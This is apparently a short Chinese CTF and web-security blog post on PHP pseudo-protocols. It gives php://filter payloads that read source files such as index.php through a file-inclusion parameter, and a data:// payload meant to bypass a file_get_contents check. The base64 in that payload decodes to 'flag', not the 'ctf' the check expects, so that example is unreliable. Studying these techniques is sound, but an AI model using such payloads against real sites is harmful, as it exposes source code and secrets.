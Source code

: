 ```yaml
---
title: 常见伪协议的用法
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - 文件上传和文件包含
abbrlink: ff8f4d6e
description: 关于filter、data伪协议的用法
tags:
---
```


## 伪协议

### filter伪协议
一般用来读取文件
> ?file=php://filter/convert.base64-encode/resource=index.php
> ?file=php://filter/read=convert.base64-encode/resource=useless.php
### data伪协议

```php
if(isset($text)&&(file_get_contents($text,'r')==="ctf")){
   echo $flag;
}
```
在这种情况下，file_get_contents()要求读取文件内容到一个字符串，但这里没没有文件，而要读取text变量，使用data伪协议绕过
> ?text=data://text/plain;base64,ZmxhZw==


